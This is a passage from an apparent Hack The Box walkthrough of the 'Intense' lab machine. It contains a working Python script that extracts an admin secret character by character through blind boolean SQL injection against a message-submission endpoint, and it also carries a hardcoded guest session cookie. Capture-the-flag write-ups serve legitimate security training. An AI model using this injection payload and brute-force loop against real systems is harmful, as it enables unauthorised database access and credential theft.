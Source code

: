 After letting the fuzzer run, I found that the first character in the admin's secret was `'f'`.  This was the only request that received an HTTP 200 OK message.

### Using python to brute force

```bash
┌──(zweilos㉿kali)-[~/htb/intense]
└─$ echo -n '84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec' | wc -c
64
```

I used the cookie I already had to pull out the secret string `84983c60f7daadc1cb8698621f802c0d9f9a3c3c295c810748fb048115c186ec` which was 64 characters long.  This let me know how many characters I needed to brute force for the admin secret. From this I used Python to write a brute force program to iterate through all 64 characters in the secret. The following sources helped me:

* To get all alpha-numeric chars: [https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters](https://stackoverflow.com/questions/5891453/is-there-a-python-library-that-contains-a-list-of-all-the-ascii-characters)
* To print output dynamically on one line: [https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically](https://stackoverflow.com/questions/3249524/print-in-one-line-dynamically)
* To get the run-time of a program or method: [https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution](https://stackoverflow.com/questions/1557571/how-do-i-get-time-of-a-python-programs-execution)

```python
import requests
import string
import time

url = "http://10.10.10.195/submitmessage"
guest_secret = "dXNlcm5hbWU9Z3Vlc3Q7c2VjcmV0PTg0OTgzYzYwZjdkYWFkYzFjYjg2OTg2MjFmODAyYzBkOWY5YTNjM2MyOTVjODEwNzQ4ZmIwNDgxMTVjMTg2ZWM7.yUJDSrHY6MXeDWIMvm6WVBrBiI11ILXthKcNc22KYMY="
referer = "http://10.10.10.195/submit"

def get_secret():
    secret = ""
    print("The secret for admin is: ", sep="", end="", flush=True)
    for i in range(64):
        for char in string.printable:
            
            #range(n) starts at 0 and ends at n-1, so need to add 1 when selecting which string location to brute force
            sql_query = "' AND (SELECT CASE WHEN ((SELECT hex(substr(secret,"+str(i+1)+",1)) FROM users WHERE role=1) = hex('"+str(char)+"')) THEN 1 ELSE MATCH(1,1) END))--"
            message = requests.post(url, cookies = { "auth" : guest_secret , "Referer" : referer }, data = { "message" : sql_query }).text
            
            # since error messages start with the word "unable", use this to filter out the correct letter
            if not "unable" in message:
                print(char, sep="", end="", flush=True)
                secret += char
                break

start_time = time.time()

get_secret()

print("")
print("Total runtime: ")
print("--- %s seconds ---" % (time.time() - start_time))
```
